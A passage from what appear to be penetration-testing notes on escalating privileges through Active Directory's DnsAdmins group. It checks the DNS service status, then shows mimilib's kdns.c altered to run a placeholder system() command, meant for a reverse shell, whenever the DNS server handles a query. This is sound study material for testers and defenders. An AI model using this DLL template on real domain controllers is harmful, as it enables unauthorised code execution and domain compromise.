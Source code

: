 #### Checking DNS Service Status

If the previous steps were successful, querying the DNS service will show that it is running. We can also confirm that DNS is working correctly within the environment by performing an `nslookup` against the localhost or another host on the domain.

```cmd-session
C:\> sc query dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

## Using Mimilib.dll

As detailed in this [post](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), we could also utilise [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the [mimikatz.md](../../../../toolbox/tooling/post-exploitation/mimikatz.md "mention") tool to gain command execution by modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute a reverse shell one-liner or another command of our choosing.

```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```
